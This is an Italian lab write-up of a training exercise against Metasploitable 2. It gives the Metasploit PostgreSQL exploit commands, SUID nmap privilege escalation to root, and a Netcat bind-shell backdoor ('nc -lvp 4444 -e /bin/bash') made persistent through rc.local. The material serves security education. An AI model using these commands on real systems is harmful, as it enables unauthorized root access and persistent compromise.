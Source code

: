 # Consegna S7/L3: Ottenere una Shell Root con Exploit PostgreSQL

## 📝 **Descrizione del progetto**
In questa esercitazione abbiamo utilizzato l'exploit **PostgreSQL Payload** di Metasploit per ottenere una shell con privilegi limitati su un sistema vulnerabile (**Metasploitable 2**). Successivamente, abbiamo sfruttato il binario `nmap` con **bit SUID** attivo per eseguire manualmente un'escalation di privilegi ed ottenere **root** sul sistema.

L'obiettivo è stato raggiunto attraverso un approccio sistematico e ben documentato che include:
- Configurazione dell'exploit PostgreSQL per ottenere una sessione iniziale Meterpreter.
- Verifica della presenza di binari vulnerabili con il bit SUID attivo.
- Escalation manuale a root sfruttando `nmap` in modalità interattiva.
- Installazione di una **backdoor persistente** con Netcat compatibile con sistemi a **32 bit**.

---

## 📋 **Passaggi seguiti**

### **1. Configurazione iniziale**
#### Verifica della connessione con Metasploitable
- Identificazione dell'IP della macchina target (**Metasploitable**):
  ```bash
  nmap -sn 192.168.50.0/24
  ```
- IP identificati:
  - **Kali Linux (attaccante):** 192.168.50.2
  - **Metasploitable (target):** 192.168.50.3

### **2. Configurazione dell'exploit PostgreSQL**
Per ottenere una sessione Meterpreter:
```bash
msfconsole
use exploit/linux/postgres/postgres_payload
set RHOSTS 192.168.50.3
exploit
```
- **Risultato:** Abbiamo ottenuto una sessione Meterpreter come utente **postgres**.

### **3. Verifica dei privilegi e binari vulnerabili**
Dalla sessione Meterpreter, abbiamo verificato l'utente corrente e cercato binari con **bit SUID** attivo:
```bash
getuid
shell
find / -perm -4000 -type f 2>/dev/null | grep nmap
```
- **Risultato:** Trovato `nmap` con bit SUID attivo su `/usr/bin/nmap`.

### **4. Escalation di privilegi a root**
Abbiamo sfruttato manualmente `nmap` per ottenere una shell root:
1. Accedere alla modalità interattiva di nmap:
   ```bash
   /usr/bin/nmap --interactive
   ```
2. Eseguire una shell come root:
   ```bash
   !sh
   ```
3. Verifica dei privilegi:
   ```bash
   whoami
   ```
- **Risultato:** Utente elevato a **root**.

![Meterpreter](./MeterpreterOK.png)

### **5. Installazione della backdoor persistente con Netcat**
Per ottenere una connessione persistente root su ogni avvio del sistema target:
1. Creazione dello script di backdoor:
   ```bash
   echo '#!/bin/bash' > /etc/backdoor_nc.sh
   echo 'nc -lvp 4444 -e /bin/bash' >> /etc/backdoor_nc.sh
   chmod +x /etc/backdoor_nc.sh
   ```
2. Aggiunta della backdoor all'avvio del sistema tramite `rc.local`:
   ```bash
   echo '/etc/backdoor_nc.sh &' >> /etc/rc.local
   chmod +x /etc/rc.local
   ```
3. Verifica del contenuto di `rc.local`:
   ```bash
   cat /etc/rc.local
   ```
- **Risultato:** La backdoor verrà eseguita automaticamente ad ogni avvio del sistema, aprendo una connessione Netcat sulla porta `4444`.

---

## 🎯 **Risultati ottenuti**
- **Accesso iniziale:** Sessione Meterpreter come utente `postgres`.
- **Escalation di privilegi:** Eseguita con successo sfruttando `nmap` con bit SUID.
- **Privilegi finali:** Shell root sul sistema target.
- **Backdoor persistente:** Configurata tramite Netcat per una connessione automatica ad ogni avvio.

---

## 🛠️ **Strumenti utilizzati**
- **Metasploit Framework:** Per lanciare l'exploit PostgreSQL e ottenere l'accesso iniziale.
- **Nmap (SUID):** Sfruttato manualmente per ottenere root.
- **Linux Shell:** Per l'esecuzione di comandi manuali post-escalation.
- **Netcat:** Utilizzato per creare una backdoor persistente con supporto a 32 bit.

---

## 📌 **Considerazioni finali**
Questa esercitazione ha dimostrato l'importanza di combinare strumenti automatizzati (come Metasploit) con tecniche manuali per sfruttare vulnerabilità note. L'escalation di privilegi tramite `nmap` evidenzia come l'errata configurazione dei permessi possa essere sfruttata per ottenere il controllo completo di un sistema target.

La backdoor persistente con Netcat consente di mantenere l'accesso root in modo stabile e automatico, semplificando la fase post-exploitation.

